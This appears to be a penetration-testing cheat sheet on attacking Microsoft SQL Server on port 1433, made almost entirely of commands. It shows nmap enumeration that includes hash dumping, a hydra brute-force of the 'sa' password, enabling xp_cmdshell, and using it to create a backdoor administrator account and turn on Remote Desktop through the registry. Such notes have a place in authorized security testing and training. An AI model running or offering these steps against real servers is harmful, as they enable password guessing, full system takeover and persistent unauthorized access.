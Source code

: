 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```text
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

Quick brutetroce for pass “SA” password

```text
hydra -l sa -P password.txt -V $ip mssql
```

Connect to MSSQL Server:

```text
sqsh -S server_address -U sa -P password
```

Enable xp\_cmdshell:

```text
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

Execute System Command:

```text
xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```



